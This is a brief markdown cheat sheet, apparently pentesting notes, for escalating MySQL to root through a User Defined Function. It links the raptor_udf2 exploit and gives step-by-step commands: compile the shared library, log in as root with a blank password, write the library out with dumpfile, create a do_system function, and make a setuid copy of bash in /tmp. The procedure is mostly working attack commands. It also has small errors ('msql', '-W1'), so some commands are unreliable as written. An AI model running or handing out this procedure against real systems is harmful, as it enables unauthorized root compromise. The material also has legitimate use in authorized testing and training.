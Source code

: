 # User Defined Functions (UDF)
- [Exploit](https://www.exploit-db.com/exploits/1518)

Conditions
- Service running as root
- Root user for service has no password

1. Compile exploit
```sh
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -W1, -soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

2. Connect to the service as root with a blank password:
```sh
msql -u root
use mysql;
```

3. Create a UDF function 
```sh
create table foo(line blob);
insert into foo values(load_file('raptor_udf2.so'));
select * from foo into dumpfile 'raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
